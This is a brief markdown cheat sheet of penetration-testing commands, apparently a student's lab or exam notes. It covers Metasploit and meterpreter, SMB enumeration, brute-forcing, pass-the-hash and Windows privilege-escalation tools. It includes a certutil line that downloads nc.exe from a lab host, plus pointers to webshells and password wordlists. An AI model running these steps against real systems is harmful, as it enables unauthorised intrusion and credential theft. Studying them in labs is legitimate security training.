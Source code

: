 # TIPs and Tricks
TIPS:
- For banner grabbing Check nc -nv
- bruteforce Services: FTP, SSH, 
- if you have clear text password then you can use psexc.py script OR psexec metasploit module
- vsFTPd OR SMTP Linux to find accounts in system smtp_enum
- grep -rnw /usr -e "/home/student/message"  checking any occurance of this file in any other file
- run arp_scanner -r 192.168.89.0/24
# wordlists
/usr/share/metasploit-framework/data/wordllists/unix_passwords.txt OR common_passwords.txt
- /usr/share/webshells/

# Msfconsole
### meterpreter
- sysinfo
- getuid
- getprivs
- type shell for shell
### commands
- show
- search
- options
- add -h to get help
- search <name-service>
- search cve:2017 type:exploit platform:windows
- connect command
- loot
- notes
- hosts
- services
- vulns
- loot For credentials
- creds

## Tools 
# imp
- searchsploit flag -m to copy
- certutil -urlcache -f http://10.10.3.2/nc.exe nc.exe to download file with windows cmd
## Windows
- always bruteforce administrator account
- narrow down your bruteforce via first identifying Username
## Windows usefull Commands
- net localgroup administrators
- whoami /priv
- net stop wampapache
### Windows
- smbclient -L <target-ip> -U vagrant
- smbmap -u -p -H <taerget-ip>
- enum4linux -u -p -U <taerget-ip> For SMB
- psexec.py also available in psexec For SMB
- Crackmapexec :: Pass the hash
- evil-winrm :: same to take access
- PowerUp.ps1 :: Windows COmmon Vulnerability Finder
- PowerSploit


## Linux
## Linux Usefull Commands
- grep -rnw /usr -e "/home/student/message"  checking any occurance of this file in any other file
- cat /etc/*issue OR cat /etc/*release to get distor version.
- uname -r Kernel versions
- locate
- tmux Terminal for Multiple Terminal in Single Terminal 
 - Usage: ctrl+b to create New Terminal ctrl+b+1/2/0 ctrl+b+Page_Up/Page_down for page up and down

## Services
- SSH 22
- SMB 445
- MySQL 3306
- FTP 21
